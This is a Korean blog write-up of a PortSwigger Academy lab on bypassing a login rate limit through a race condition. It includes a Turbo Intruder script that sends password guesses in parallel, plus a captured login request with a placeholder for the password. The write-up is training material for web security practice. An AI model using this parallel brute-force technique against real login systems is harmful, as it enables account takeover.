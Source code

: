 ```yaml
---
layout: post
title: "Burp Academy-레이스컨디션 관련 취약점: Bypassing rate limits via race conditions"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, 레이스컨디션, Race Condition]
toc: true
last_modified_at: 2023-09-01 10:33:00 +0900
---
```


# 개요
- 새로 추가된 레이스 컨디션 관련 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits
- 취약점 설명페이지: https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions
- 난이도: PRACTITIONER (보통)

# 문제 개요 
- 이번에는 로그인 시도 횟수 제한이 있는 로그인기능을 브루트포스로 푸는 문제이다. 
- 로그인 시도 횟수 카운터가 올라가기 전에 요청을 병렬로 보내면 될 것 같다. 
- 로그인에 시도할 패스워드 목록도 제공해주고 있다. 
- 로그인에 성공하면 admin 패널에서 carlos유저를 삭제하면 된다. 
- 이 랩은 15분 시간제한이 있다. 이 시간안에 브루트포스를 성공시켜야 한다. 

```
This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.

To solve the lab:

Work out how to exploit the race condition to bypass the rate limit.
Successfully brute-force the password for the user carlos.
Log in and access the admin panel.
Delete the user carlos.
You can log in to your account with the following credentials: wiener:peter.

You should use the following list of potential passwords:
```

# 터보 인트루더를 사용하기 
요청을 병렬로 보내기 위한 다음과 같은 기본형이 소개되어 있다. 

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```

# 풀이
## Turbo Intruder 설치
혹시 Turbo Intruder가 설치되어 있지 않다면 Extensions > BApp Store에서 Turbo Intruder를 설치한다. 

## 로그인 요청을 터보 인트루더로 보내기 
로그인요청을 Burp Proxy로 잡은 후에 마우스 오른쪽 버튼 클릭 Extensions > Turbo Instruder > Send to turbo intruder를 선택한다. 

## 터보 인트루더 세팅하기 
1. 로그인 요청 조정 

로그인 요청을 조금 조정한다. useranme은 carlos로 변경하고 password부분은 %s로 바꾼다. 

```http
POST /login HTTP/2
Host: 0a150014032cbb6382ec568f00bd00c3.web-security-academy.net
Cookie: session=TYVh5XkpMwjuvNVwTx9Vaj0jUDX2MUCR
Content-Length: 68
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a150014032cbb6382ec568f00bd00c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a150014032cbb6382ec568f00bd00c3.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

csrf=zFE02nmU8JvnHNLgT1xbM2gRS4Ori9vT&username=carlos&password=%s
```


2. 문제에서 주어진 패스워드를 파일로 저장해준다. 나는 C:\passwords\passwords.txt에 저장해두었다. 

3. 패스워드 후보를 파일에서 얻어오도록 다음과 같이 코드를 수정한다. 

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    for word in open('C:\passwords\passwords.txt'):
        engine.queue(target.req, word.rstrip(), gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')


def handleResponse(req, interesting):
    if interesting:
        table.add(req)

```

## 브루트 포스 공격시도 

4. attack을 눌러서 공격을 시도한다. 그러면 다음과 같이 결과라 리스트업 된다. 여러 요청중에 하나만 302응답인 것을 알 수 있다. 이 것이 calors유저의 패스워드이다. 

(혹시 csrf토큰에러가 발생한다면 새롭게 로그인 웹 페이지에 들어가서 새로운 csrf토큰을 얻어와서 세팅한다. )

![attack결과](/images/burp-academy-race-condition-2-1.png)

5. calros유저로 로그인한다. 

![calors유저로 로그인](/images/burp-academy-race-condition-2-2.png)

6. Delete버튼을 눌러서 calros 유저를 삭제하면 문제가 풀렸다는 메세지가 출력된다. 

![문제풀이](/images/burp-academy-race-condition-2-success.png)

# 배운 것
- 이전 문제에서 Burp Reapeter에서 수행했던 HTTP/2 Single Packet Attack 을 Turbo Intruder를 이용해서 수행할 수 있다. 
- 코드를 작성할 수 있으니 더 여러방면에서 쓸 수 있다. 

# 참고 
- https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py
- https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack